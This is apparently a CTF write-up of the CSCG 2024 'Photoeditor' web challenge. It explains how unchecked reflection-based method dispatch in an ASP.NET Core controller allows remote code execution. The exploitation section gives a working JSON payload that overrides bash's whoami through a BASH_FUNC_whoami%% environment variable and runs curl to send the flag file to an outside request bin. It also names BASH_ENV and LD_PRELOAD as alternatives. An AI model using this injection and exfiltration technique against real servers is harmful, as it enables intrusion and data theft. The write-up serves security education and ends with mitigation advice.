 ```yaml
---
title: Photoeditor
author: Adrian Junge
description: Recently I learned ASP .NET Core and boy, it's so magic! Dependency injection, dynamic routing, interfaces everywhere. But for me, it wasn't dynamic enough. So I extended the framework and now I got all the dynamic in the world I could wish for. That surely didn't introduce any vulnerabilities, right?",
categories:
    - Web
    - .NET
year: 2024
---
```


# 1. Introduction<a name="introduction"></a>
This challenge was about some interesting dynamic implementation to process user generated input calling appropriate functions in the application:

```
Recently I learned ASP .NET Core and boy, it's so magic!
Dependency injection, dynamic routing, interfaces everywhere.
But: For me, it wasn't dynamic enough.
So I extended the framework and now I got all the dynamic in the world I could wish for.
That surely didn't introduce any vulnerabilities, right?
```


# 2. Reconnaissance<a name="reconnaissance"></a>
Looking around on the webpage you have access to, you can play around uploading some pictures and editing these with special options.

![rickroll](ctf/writeups/cscg/photoeditor/rick.png "rickroll")

Uploading pictures is usually very interesting by giving a nice attack surface. But having a look at the **C#** code you realize the picture is never uploaded as a file to the server. It is just getting cached in the memory and there being modified directly. Looking through the source files one of them looks very interesting. One of the controllers is executing some bash command with arbitrarily set environment variables. This might be useful later, although just being able to execute `whoami` doesn’t seem that interesting at first...


```c#
public String GetUsername(Dictionary<String,String> env) {
    Process process = new Process();
    process.StartInfo.FileName = "bash";
    process.StartInfo.Arguments = "-c 'whoami'";

    foreach (var kv in evn)
    {
        process.StartInfo.EnvironmentVariables[kv.Key] = kv.Value;
    }

    process.StartInfo.UseShellExecute = false;
    process.StartInfo.RedirectStandardOutput = true;
    process.StartInfo.RedirectStandardError = true;
    process.Start();
    string output = process.StandardOutput.ReadToEnd();
    Console.WriteLine(output);
    string err = process.StandardError.ReadToEnd();
    Console.WriteLine(err);
    process.WaitForExit();

    return output + err;
}
```

By having a closer look at the rest of your code the `DynamicPhotoEditorController` seems very interesting. This controller defines the editing process of the image. The chosen editing action is part of the request and is being processed in an interesting way.

```c#
var actionMethod = this.GetType().GetMethod(photoTransferRequestModel.DynamicAction);
```

After some deserialization of the given request parameters the given action method is called with the request parameters.

```c#
var transformedImage = (Image)actionMethod.Invoke(this, editParams);
```

Definitely a way to make your application very dynamic – but also very vulnerable... These lines of code just takes the `DynamicAction` request parameter, maps it to an arbitrary method of the controller, and executes it. For example, rotating the image is done with the following request parameters:

```json
{
    "DynamicAction":"RotateImage",
    "Parameters":"[90]",
    "Types":null
}
```


# 3. Vulnerability Description<a name="vulnerability description"></a>
At first, it seems like there are no interesting functions to call but taking a closer look at the code you realize the `DynamicPhotoEditorController` is inheriting from the `BaseAPIController` which implements the `GetUsername` function. So maybe you can call this one and make the application execute `whoami`? The given `DynamicAction` is not being sanitized and validated by the server. By setting `DynamicAction` to `GetUsername` you get:

```json
{
    "base64Blob":null,
    "error": "Object of type 'System.Int64' cannot be converted to type 'System.Collections.Generic.Dictionary`2[System.String,System.String]'."
}
```

Although it is just throwing an error hinting some issues with converting some types, this seems promising. It seems like it is having problems calling the `GetUsername` function because the parameter got the wrong type. There is an example usage of the `GetUsername` function in the `HealthController`. By setting the `Types` field to `System.Collections.Generic.Dictionary'2[System.String,System.String]` and the `Parameters` field for the environment variables correctly:

```json
{
    "DynamicAction":"GetUsername",
    "Parameters":"[{\"PATH\":\"/usr/bin\"}]",
    "Types":[
        "System.Collections.Generic.Dictionary`2[System.String,System.String]"
    ]
}
```

you unfortunately get another error:

```json
{
    "base64Blob":null,
    "error":"Unable to cast object of type 'System.String' to type 'SixLabors.ImageSharp.Image'."
}
```

But having another look on the code it seems like the `whoami` command must have been executed. This error must be part of the editor controller. Right after calling the action method, the result is converted to `Image`.

```c#
var transformedImage = (Image)actionMethod.Invoke(this, editParams);
```

But what now?


# 4. Exploitation<a name="exploitation"></a>
Only being able to execute some hard-coded commands like `whoami` and being able to set the environment variables can’t be enough for RCE right? But indeed it is enough! After searching for some weird bash environment variables I found something interesting. By setting `BASH_FUNC_whoami%%=() { id; }` you could override the behavior of the `whoami` command executing for example the `id` command. By setting the request parameters like following:

```json
{
    "DynamicAction":"GetUsername",
    "Parameters":"[{\"BASH_FUNC_whoami%%\":\"() { curl -d @flag https://...m.pipedream.net; }\"}]",
    "Types":[
        "System.Collections.Generic.Dictionary`2[System.String,System.String]"
    ]
}
```

you can extract the flag to your request bin

![pastebin](ctf/writeups/cscg/photoeditor/flag_pastebin.png "pastebin")

There are some other solutions with different bash environment variables like `BASH_ENV` and `LD_PRELOAD`.


# 5. Mitigation<a name="mitigation"></a>
This is clearly a problem of the implementation. At least some input sanitization and validation of the `DynamicAction` parameter should have been added like limiting the allowed character, length etc. But input validation should never be the only security measurement. With some weird edge cases an attacker could still bypass it. Another option would be some kind of static mapping from parameter to function. Moreover executing shell commands via the code is a bad idea. There are most of the time safe built-in functions in **C#** doing the same job. Also setting the environment variables dynamically can lead to security issues as already described. Setting the environment variables should be part of the deployment e.g. in a docker container and not part of the code.


# 6. Flag<a name="flag"></a>
CSCG\{AppSec\_Chall3nge\_disguised\_as\_W3b\_sorry:)\}
